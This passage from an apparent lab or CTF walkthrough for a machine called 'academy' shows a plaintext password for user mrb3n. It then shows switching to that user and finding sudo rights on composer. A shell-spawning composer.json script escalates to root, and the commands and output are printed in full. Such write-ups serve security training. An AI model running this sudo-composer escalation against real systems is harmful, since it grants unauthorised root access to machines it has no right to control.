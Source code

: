 ```bash
mrb3n : mrb3n_Ac@d3my!
```
{: .nolineno}
{: .nolineno}

Now lets change the user to mrb3n →

```bash
cry0l1t3@academy:~$ su mrb3n
Password: 
$ /bin/bash -i
mrb3n@academy:/home/cry0l1t3$ cd ~
mrb3n@academy:~$ whoami
mrb3n
mrb3n@academy:~$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
mrb3n@academy:~$
```
{: .nolineno}
{: .nolineno}

Now I used GIFObin for sudo commands →

![Untitled](/Vulnhub-Files/img/Academy/Untitled%2010.png)

```bash
mrb3n@academy:~$ TF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https:/getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# /bin/bash -i
root@academy:/tmp/tmp.pQlh1O6ocq# cd ~
root@academy:~# whoami
root
root@academy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:~# ls -al
```